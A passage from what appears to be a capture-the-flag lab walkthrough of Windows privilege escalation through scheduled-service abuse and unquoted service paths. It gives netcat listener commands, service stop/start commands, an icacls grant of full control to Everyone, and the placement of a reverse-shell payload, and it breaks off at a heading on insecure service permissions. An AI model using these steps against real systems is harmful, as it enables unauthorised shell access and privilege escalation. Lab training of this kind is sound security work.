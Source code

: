 Open a listener on your attack box.

```bash
nc -lvp 4445
```

Now stop and start the service on the windows box.

```shell
sc stop windowsscheduler
```

```shell
sc start windowsscheduler
```

You should now have a shell. The flag is in svcusr1 desktop.

---
#### unquoted service paths

For this we will be exploiting the "**disk sorter enterprise**" service.

Read through the task to better understand what we will be doing.

Now to solve the problem we will copy the payload we just made "**rev-svc.exe**" and use one of them as our reverse shell instead of making another.

Now move the payload to the "**MyPrograms**" directory under the name Disk.exe.

```shell
move C:\Users\thm-unpriv\rev-svc.exe C:\MyPrograms\Disk.exe
```

and give it full permissions.

```shell
icacls C:\MyPrograms\Disk.exe /grant Everyone:F
```

Now setup your listener.

```bash
nc -lvp 4445
```

Now like before stop and start the service.

```shell
sc stop "disk sorter enterprise" 
```

```shell
sc start "disk sorter enterprise"
```

You should now have a shell. The flag is in svcusr2's desktop.


---
#### insecure service permissions

Here we will do the same as the last 2 with a bit of a twist.
